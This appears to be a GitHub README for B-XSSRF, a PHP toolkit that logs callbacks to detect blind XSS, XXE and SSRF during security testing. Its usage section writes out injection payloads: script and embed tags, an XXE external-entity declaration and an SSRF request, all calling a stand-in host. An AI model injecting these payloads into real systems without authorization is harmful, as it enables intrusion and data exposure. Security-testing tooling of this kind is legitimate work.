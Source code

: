<h1 align="center">
  <br>
  <a href=""><img src="https://github.com/SpiderMate/B-XSSRF/blob/master/img/icon.png" width="70" height="70" alt="B-XSSRF"></a>
  <br>
  B-XSSRF
  <br>
</h1>

<h4 align="center">Toolkit to detect and keep track on Blind XSS, XXE & SSRF</h4>

<p align="center">
  <a href="https://github.com/SpiderMate/PS-Ducky/releases">
    <img src="https://img.shields.io/badge/release-v1.0-blue.svg">
  </a>
  <a href="https://github.com/SpiderMate/PS-Ducky/issues">
    <img src="https://img.shields.io/badge/issues-0-red.svg">
  </a>
    <a href="https://github.com/SpiderMate/PS-Ducky/issues">
    <img src="https://img.shields.io/badge/php-5-green.svg">
  </a>
</p>

<img src="https://github.com/SpiderMate/B-XSSRF/blob/master/img/dashboard.png" alt="B-XSSRF">

### SETUP
- Upload the files to your server.
- Create a Database and upload <b>database.sql</b> file to it.
- Change the <b>DB Credentials</b> in <b>db.php</b> file.
- Ready.

### USAGE
BLIND XSS 

```
<embed src="http://mysite.com/bxssrf/request.php">
<script src="http://mysite.com/bxssrf/request.php">
```
BLIND XXE

```
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "http://mysite.com/bxssrf/request.php"> %ext;
]>
<r></r>
```
SSRF

```
GET /testssrf.php=http://mysite.com/bxssrf/request.php

```
